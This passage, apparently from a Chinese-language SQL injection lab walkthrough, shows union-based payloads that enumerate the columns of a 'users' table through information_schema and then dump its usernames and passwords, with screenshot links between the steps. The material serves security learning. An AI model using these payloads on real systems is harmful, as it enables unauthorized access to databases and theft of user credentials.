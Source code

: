 ![image-20220114233718152](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114233718152.png)

得到表名：emails,referers,uagents,users



继续查询表中的列：

```
?id=-2' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

发现:id,username,password

![image-20220114233943230](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114233943230.png)



继续查询列中的内容：

```
?id=-2' union select 1,group_concat(username),group_concat(password) from users --+
```
